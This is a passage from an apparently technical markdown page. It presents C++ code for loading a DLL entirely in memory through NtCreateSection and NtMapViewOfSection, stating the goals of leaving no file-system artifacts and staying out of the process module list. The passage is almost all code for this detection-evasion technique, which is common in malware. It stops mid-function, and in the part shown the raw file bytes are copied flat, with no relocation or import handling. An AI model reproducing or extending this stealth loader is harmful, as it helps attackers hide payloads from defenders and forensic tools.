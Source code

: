 ### 2.3. Memory-Only DLL Loading Without Import Table or PE Headers

```cpp
// Load a DLL entirely in memory with no file system artifacts
HMODULE MemoryOnlyLoadLibrary(const void* dllData, size_t dllSize) {
    // Create section object to load DLL
    HANDLE hSection = NULL;
    LARGE_INTEGER sectionSize;
    sectionSize.QuadPart = dllSize;
    
    // Create a section object in the system
    NTSTATUS status = NtCreateSection(
        &hSection,
        SECTION_ALL_ACCESS,
        NULL,
        &sectionSize,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT,
        NULL
    );
    
    if (!NT_SUCCESS(status)) {
        return NULL;
    }
    
    // Map the section for writing
    PVOID baseAddress = NULL;
    SIZE_T viewSize = 0;
    status = NtMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &baseAddress,
        0,
        0,
        NULL,
        &viewSize,
        ViewUnmap,
        0,
        PAGE_READWRITE
    );
    
    if (!NT_SUCCESS(status)) {
        NtClose(hSection);
        return NULL;
    }
    
    // Copy DLL data to the section
    memcpy(baseAddress, dllData, dllSize);
    
    // Unmap the write view
    NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
    
    // Map the section as executable but without linking into module list
    baseAddress = NULL;
    viewSize = 0;
    status = NtMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &baseAddress,
        0,
        0,
        NULL,
```